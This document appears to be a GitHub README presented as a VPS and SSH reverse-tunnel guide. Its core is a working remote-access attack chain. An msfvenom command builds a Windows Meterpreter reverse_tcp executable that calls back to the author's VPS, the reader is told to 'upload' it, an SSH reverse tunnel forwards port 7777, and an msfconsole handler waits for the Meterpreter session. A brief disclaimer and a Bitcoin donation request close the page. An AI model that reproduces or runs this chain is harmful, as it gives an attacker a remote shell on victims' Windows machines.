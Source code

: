 
<p align="center">
<img src="https://cdn-icons-png.flaticon.com/512/5062/5062696.png" width="30%" height="30%">
</p>

<h1 align="center"> SSH TUNNELING </h1>
<h4 align="center"> Welcome to my VPS Setup Blog! This guide will walk you through the process of buying a Virtual Private Server (VPS) with Ubuntu, configuring it for SSH access, and setting up a reverse tunnel.
</h4>

## Introduction

In this blog, we'll demonstrate how to setup a VPS and ssh tunnel, specifically one with 1GB RAM, 1 CPU, and a 25GB SSD, running Ubuntu. We'll enable SSH, set a password, configure the SSH server for port forwarding, and set up a reverse tunnel.

## Buy a VPS

1. Choose a VPS provider that meets your needs. For example, DigitalOcean, AWS, or Linode.
2. Select a VPS plan with 1GB RAM, 1 CPU, and a 25GB SSD.
3. During the setup process, choose Ubuntu as the operating system.

## Connect to Your VPS

After the VPS is set up, you can connect to it using SSH. Open your terminal and execute:

```bash
ssh root@your_vps_ip
```
Replace your_vps_ip with the actual IP address provided by your VPS provider.


## Configure SSH

Open the SSH configuration file:

```bash
nano /etc/ssh/sshd_config
```

Uncomment the following lines to enable TCP port forwarding:

```bash
AllowTcpForwarding yes
GatewayPorts yes
```
Exit the nano editor (usually by pressing Ctrl + X, then Y to confirm changes, and Enter to save).

## Reboot Your VPS

After making changes to the SSH configuration, it's a good practice to reboot your VPS:

```bash
reboot
```

Wait for the VPS to restart.

## Creating payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=vps_ip LPORT=7777 -f exe -o payload.exe
```
now upload you payload

## Set Up a Reverse Tunnel

To set up a reverse tunnel, execute the following command in your local machine's terminal:

```bash
ssh -R 7777:127.0.0.1:7777 root@your_vps_ip
```
Replace your_vps_ip with the actual IP address provided by your VPS provider. After executing this command, you can leave the SSH session on your local machine. This establishes a reverse tunnel

## Create a listener
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST=127.0.0.1
set LPORT=7777
run
```
THEN WAIT FOR THE METERPRETER SESSION

## Support

If you find my work helpful and want to support me, consider making a donation. Your contribution will help me continue working on open-source projects.

**Bitcoin Address: `36ALguYpTgFF3RztL4h2uFb3cRMzQALAcm`**

<h1 align="center"> DISCLAIMER </h1>

<h4 align="center">I'm not responsible for anything you do with this program, so please only use it for good and educational purposes. </h4>



